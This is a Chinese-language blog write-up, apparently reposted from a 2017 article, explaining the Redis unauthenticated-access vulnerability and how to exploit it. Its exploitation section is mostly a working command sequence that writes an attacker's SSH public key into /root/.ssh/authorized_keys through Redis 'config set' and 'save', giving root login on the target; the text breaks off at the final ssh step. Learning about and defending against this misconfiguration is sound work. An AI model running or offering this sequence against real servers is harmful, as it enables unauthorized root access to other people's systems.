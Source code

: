 ```yaml
---
title: Redis 未授权访问漏洞利用总结
date: 2017-07-15
author: burlin
source_link: http://www.alloyteam.com/2017/07/12910/
---
```


<!-- {% raw %} - for jekyll -->

# Redis 未授权访问漏洞利用总结

_Redis_ 是一个开源的使用 ANSI C 语言编写、支持网络、可基于内存亦可持久化的日志型、Key-Value 数据库，并提供多种语言的 API。

![](http://www.alloyteam.com/wp-content/uploads/2017/07/屏幕快照-2017-07-15-下午5.32.54-1024x441.png)

## **一、**漏洞介绍

Redis 默认情况下，会绑定在 0.0.0.0:6379，这样将会将 Redis 服务暴露到公网上，如果在没有开启认证的情况下，可以导致任意用户在可以访问目标服务器的情况下未授权访问 Redis 以及读取 Redis 的数据。攻击者在未授权访问 Redis 的情况下可以利用 Redis 的相关方法，可以成功在 Redis 服务器上写入公钥，进而可以使用对应私钥直接登录目标服务器。

### **漏洞描述**

部分 Redis 绑定在 0.0.0.0:6379，并且没有开启认证（这是 Redis 的默认配置），如果没有进行采用相关的策略，比如添加防火墙规则避免其他非信任来源 ip 访问等，将会导致 Redis 服务直接暴露在公网上，导致其他用户可以直接在非授权情况下直接访问 Redis 服务并进行相关操作。

利用 Redis 自身的提供的 config 命令，可以进行写文件操作，攻击者可以成功将自己的公钥写入目标服务器的 /root/.ssh 文件夹的 authotrized_keys 文件中，进而可以直接使用对应的私钥登录目标服务器。

![](http://www.alloyteam.com/wp-content/uploads/2017/07/屏幕快照-2017-07-15-下午5.33.41.png)

## 二、漏洞利用

首先在本地生产公私钥文件：

     
    $ ssh-keygen –t rsa
     

然后将公钥写入 foo.txt 文件

     
    $ (echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > foo.txt
     

连接 Redis 写入文件

     
    $ cat foo.txt | redis-cli -h 192.168.1.11 -x set crackit
    $ redis-cli -h 192.168.1.11
    $ 192.168.1.11:6379> config set dir /root/.ssh/
    OK
    $ 192.168.1.11:6379> config get dir
    1) "dir"
    2) "/root/.ssh"
    $ 192.168.1.11:6379> config set dbfilename "authorized_keys"
    OK
    $ 192.168.1.11:6379> save
    OK
     

这里讲解下，这里设定了 crackit 的键值为公钥，并通过 redis 命令变更 Redis DB 文件及存放地点为默认 root 用户 SSH key 存放文件，并将键值重定向追加到远程文件 authorized_keys 的末尾，也就上传了公钥。

这样就可以成功的将自己的公钥写入 /root/.ssh 文件夹的 authotrized_keys 文件里，然后攻击者直接执行：

     
    $ ssh


<!-- {% endraw %} - for jekyll -->